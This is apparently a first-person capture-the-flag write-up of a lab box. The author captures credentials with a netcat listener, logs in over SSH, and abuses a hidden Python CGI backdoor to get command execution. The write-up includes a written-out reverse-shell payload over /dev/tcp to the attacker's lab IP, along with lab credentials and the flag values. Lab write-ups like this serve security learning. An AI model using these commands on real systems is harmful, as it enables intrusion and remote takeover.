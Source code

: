 Project Goal
The goal of this project was to investigate a vulnerable CGI server within a local network, identify a remote command execution (RCE) vulnerability, and gain control over the system through a reverse shell. The final objective was to escalate privileges and capture the root flag.

Execution Steps
1. Traffic Analysis
First, I launched Netcat on my machine (IP 10.10.189.64) to monitor incoming data:

nc -lvnp 9000
Shortly after, I received a POST request containing credentials:

jack:WhyIsMyPasswordSoStrongIDK
2.SSH Access
I then established an SSH connection to the target machine (10.10.131.187) as the user jack:

ssh jack@10.10.131.187
# Entered password: WhyIsMyPasswordSoStrongIDK
On the target system, I retrieved the user flag:

cat ~/user.txt
1ca4eb201787acbfcf9e70fca87b866a
3. Discovering the CGI Backdoor
I noticed an active service on port 41312:

ss -tulnp
It was serving a CGI script at /cgi-bin/5UP3r53Cr37.py and accepted the parameters key, iv, and cmd.


curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id"
4.  Gaining Root Shell Access
To initiate a reverse shell, I set up a Netcat listener on my machine:

nc -lvnp 4444
Then, I triggered the reverse shell from the target:

curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sh%20-c%20'sh%20-i%20>%26%20/dev/tcp/10.10.189.64/4444%200>%261'"
I successfully received a root shell on my machine 

5. Capturing the Root Flag
Once I had root-level access, I located and read the root flag:

cat /root/root.txt
4dbe2259ae53846441cc2479b5475c72

Conclusion

I conducted a complete penetration test of a remote server, identifying and exploiting an RCE vulnerability via an insecure CGI script. Using extracted credentials and traffic analysis, I gained full root access and successfully captured the root flag.

The main attack vector was a vulnerable Python CGI script that executed unsanitized commands directly in the system shell.
